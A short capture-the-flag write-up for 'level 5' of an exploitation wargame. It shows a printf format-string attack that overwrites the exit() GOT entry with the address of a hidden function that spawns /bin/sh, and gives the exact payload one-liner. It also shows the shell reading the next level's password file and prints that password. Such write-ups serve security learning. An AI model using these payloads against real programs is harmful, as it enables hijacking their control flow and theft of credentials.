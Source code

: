 # level 5

There is an exec level5, we bring to local data.
We have 3 functions, main() calling n() and fn o() which has a call to /bin/sh but is never called by the program. We're going to find a way to call o().

There is a call to printf in fn n(), we have to find from what byte we have access.

    (python -c 'print "aaaabbbbcccc" + " %p" * 10') | ./level5 
    aaaabbbbcccc 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262 0x63636363 0x20702520 0x25207025 0x70252070 0x20702520

## addresses

o()
    `080484a4`

exit() GOT : (Global Offset Table) is a table of addresses in the data section, it contains the shared library functions addresses.
    `0x8049838`

We need to redirect from printf to the address of o(), 080484a4 == 134513828
from this we have
o address - 4 bytes
padding - 134513824 bytes

    $ (python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat ) | ./level5
    whoami
    level6
    pwd
    /home/user/level5
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
